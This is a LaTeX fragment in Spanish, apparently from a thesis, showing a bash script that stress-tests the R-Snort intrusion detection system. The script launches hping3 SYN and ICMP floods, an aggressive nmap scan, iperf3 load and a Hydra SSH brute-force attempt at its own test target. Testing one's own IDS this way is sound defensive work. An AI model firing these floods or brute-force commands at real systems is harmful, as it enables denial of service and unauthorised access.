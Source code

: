 \documentclass[11pt,a4paper,twoside]{report}
\begin{document}
El siguiente fragmento muestra el contenido del script utilizado:

\begin{lstlisting}[language=bash,caption={Script para generar ataques masivos contra R-Snort},label={lst:ataques-masivos}]
	# PUERTO UNICO POR INSTANCIA
	PUERTO_IPERF="${1:-5201}"
	
	echo "[+] ATAQUE desde terminal con IPERF en puerto $PUERTO_IPERF"
	echo "==============================================="
	
	# 1. TCP SYN Flood
	echo "[1] Iniciando TCP SYN Flood con hping3..."
	sudo hping3 -S --flood -p 80 $R_SNORT_IP &
	
	# 2. ICMP Flood
	echo "[2] Iniciando ICMP Flood..."
	sudo hping3 -1 --flood $R_SNORT_IP &
	
	# 3. Escaneo nmap agresivo
	echo "[3] Lanzando escaneo Nmap agresivo..."
	sudo nmap -sS -sU -T4 -A $R_SNORT_IP --reason --script "default" -p- &
	
	# 4. Tráfico continuo con iperf3 (en puerto variable)
	echo "[4] Ejecutando iperf3 -c $R_SNORT_IP -p $PUERTO_IPERF ..."
	iperf3 -c $R_SNORT_IP -p $PUERTO_IPERF -t 60 -b 100M &
	
	# 5. Ataque de fuerza bruta con hydra (limitado)
	echo "[5] Simulando fuerza bruta con Hydra..."
	hydra -l admin -p admin ssh://$R_SNORT_IP -t 4 -V -f &
	
	echo "==============================================="
	echo "Todos los ataques están en ejecución. Observar las gráficas."
\end{lstlisting}

Este enfoque permitió verificar no solo la capacidad del sistema para generar alertas ante ataques múltiples, sino también analizar el rendimiento de la Raspberry Pi bajo carga, así como la eficacia del almacenamiento de alertas y la visualización en tiempo real mediante Grafana.

\newpage

\subsection{Pruebas funcionales}

Para el apartado de pruebas se pretende verificar la estabilidad y eficiencia de la interfaz frontend de R-Snort ante un volumen extremo de alertas generado durante las pruebas de estrés con tráfico malicioso y las demás funcionalidades del ecosistema R-Snort.\newline
\end{document}
